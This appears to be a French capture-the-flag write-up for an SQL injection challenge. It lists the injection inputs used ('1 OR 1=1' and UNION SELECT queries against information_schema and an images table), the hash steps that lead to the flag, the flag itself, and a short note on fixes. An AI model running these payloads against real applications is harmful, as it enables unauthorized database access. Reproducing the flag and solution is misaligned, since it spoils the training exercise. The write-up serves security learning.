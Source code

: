 # Recherches

1. Test de la requete `1 OR 1=1` dans l'input retourne toute la liste
2. Element suspect `Hack me ?`
3. Lister les colones
   ```
   1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns
   ```
4. Afficher le contenu des autres colones
   ```
   1 UNION SELECT title, comment FROM list_images
   ```
5. `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`
6. `md5(1928e8083cf461a51303633093573c46) == "albatroz"`
7. `sha256(albatroz) = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

> FLAG: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

# Explications

Les failles sql sont courrantes dans les applications qui ne securisent pas leurs entrees.

# Corrections

Pour eviter les failles sql plusieurs choses sont necessaires:
     - mises a jours frequentes de la db SQL
     - sanitize les entrees utilisateurs


